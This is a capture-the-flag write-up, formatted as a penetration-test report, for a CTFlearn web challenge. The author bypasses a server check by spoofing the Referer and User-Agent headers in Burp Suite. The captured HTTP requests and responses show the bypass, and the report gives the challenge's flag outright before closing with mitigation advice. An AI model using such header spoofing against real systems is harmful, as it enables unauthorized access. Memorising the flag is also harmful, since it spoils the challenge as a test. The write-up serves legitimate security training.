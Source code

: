# Vulnerability Assessment and Penetration Testing (VAPT) Report – HTTP Header Manipulation

**Prepared by:** Nishanth Antony  
**Date:** August 24, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation  
**Platform:** CTFlearn  

---

## 1. Reconnaissance Steps  
**Objective:** Identify vulnerabilities related to HTTP headers in the application.  
**Commands Used:**  
- None (manual inspection via Burp Suite).  

**Findings:**  
- Challenge titled "Don’t Bump Your Header" hinted at HTTP header manipulation.  
- Initial GET request to `header.php` showed the application checked headers (e.g., User-Agent, Referer).  
- Response suggested header modification was required to access the flag.  

---

## 2. Exploitation Process  
**Step 1 – Request Interception**  
- Intercepted GET request to `header.php` using Burp Suite.  
- Initial request and response:  
  ```http
  Request:
  GET /header.php HTTP/1.1
  Host: 165.227.106.113
  Cache-Control: max-age=0
  DNT: 1
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  Connection: keep-alive
  ```
  ```http
  Response:
  HTTP/1.1 200 OK
  Server: nginx/1.4.6 (Ubuntu)
  Date: Thu, 31 Jul 2025 06:01:20 GMT
  Content-Type: text/html
  Connection: keep-alive
  X-Powered-By: PHP/5.5.9-1ubuntu4.22
  Content-Length: 01

  Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
  <!-- Sup3r3cr3tAg3nt -->
  ```

**Step 2 – Header Manipulation**  
- Modified User-Agent header to `http://ctflearn.com/challenge` in Burp Suite.  
- Received hint in response to adjust Referer header.  
- Changed Referer header to `http://awesomesauce.com` in a new request.  
- Modified request and successful response:  
  ```http
  Request:
  GET /header.php HTTP/1.1
  Host: 165.227.106.113
  Cache-Control: max-age=0
  DNT: 1
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  Referer: http://awesomesauce.com
  Connection: keep-alive
  ```

  ```http
  Response:
  HTTP/1.1 200 OK
  Server: nginx/1.4.6 (Ubuntu)
  Date: Thu, 31 Jul 2025 05:59:48 GMT
  Content-Type: text/html
  Connection: keep-alive
  X-Powered-By: PHP/5.5.9-1ubuntu4.22
  Content-Length: 01

  Here is your flag: flag{did_this_m3ss_with_your_h34d}
  <!-- Sup3r3cr3tAg3nt -->
  ```

**Step 3 – Flag Retrieval**  
- Submitted the flag `flag{did_this_m3ss_with_your_h34d}` extracted from the response.  

---

## 3. Proof of Concept (PoC)  
- **Header Manipulation:**  
  - Intercepted request and modified:  
    ```http
    GET /header.php HTTP/1.1
    Host: web.ctflearn.com
    Referer: http://awesomesauce.com
    User-Agent: Mozilla/5.0
    ```
  - Response included: `Here is your flag: flag{did_this_m3ss_with_your_h34d}`.  

---

## 4. Privilege Escalation  
- Not applicable; challenge focused on header manipulation for flag retrieval.  

---

## 5. Mitigation Recommendations  
- **Header Validation:**  
  - Avoid relying on client-controlled headers (e.g., Referer, User-Agent) for security decisions.  
- **Server-Side Authorization:**  
  - Implement session-based authentication with server-side validation.  
- **Logging and Monitoring:**  
  - Log header values and monitor for suspicious patterns.  
- **Secure Development Training:**  
  - Educate developers on risks of trusting client-side data.  
- **HTTP Security Headers:**  
  - Use headers like `Strict-Transport-Security` and `X-Frame-Options` to enhance security.  

---

## 6. Lessons Learned  
- **Header Trust Issues:** Client-controlled headers are easily manipulated, posing security risks.  
- **Tool Usage:** Burp Suite is effective for testing and exploiting header-based vulnerabilities.  
- **Server-Side Security:** Proper server-side checks are essential to prevent unauthorized access.  

---

## 7. Skills Practiced  
- HTTP header manipulation (Burp Suite)  
- Web request interception and analysis  
- Understanding header-based vulnerabilities  
- Secure reporting and mitigation strategies  
